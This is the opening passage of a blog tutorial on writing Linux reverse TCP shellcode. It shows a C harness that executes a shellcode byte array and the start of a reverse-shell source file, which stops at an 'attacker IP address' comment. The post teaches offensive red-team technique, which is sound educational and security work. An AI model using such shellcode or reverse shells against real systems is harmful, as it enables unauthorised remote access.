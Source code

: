 ```yaml
---
title:  "Linux shellcoding - part 2. Reverse TCP shellcode"
date:   2021-10-17 10:00:00 +0600
header:
  teaser: "/assets/images/14/2021-10-16_11-42.png"
categories: 
  - tutorial
tags:
  - asm
  - x86
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!           

![linux shellcoding](/assets/images/14/2021-10-16_11-42.png){:class="img-responsive"}          

In the [first post](/tutorial/2021/10/09/linux-shellcoding-1.html) about shellcoding, we spawned a regular shell. Today my goal will be to write reverse TCP shellcode.      

### testing shellcode     

When testing shellcode, it is nice to just plop it into a program and let it run. We will use the same code as in the first post (`run.c`):           
```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "my shellcode here";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1, 
  // so our shellcode worked
  return 1;
}
```

### reverse TCP shell

We will take the C code that starts the reverse TCP shell from one of my [previous](/tutorial/2021/09/11/reverse-shells.html) posts.          
So our base (`shell.c`):
```cpp
/*
shell.c - reverse TCP shell
author: @cocomelonc
demo shell for linux shellcoding example
*/
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
```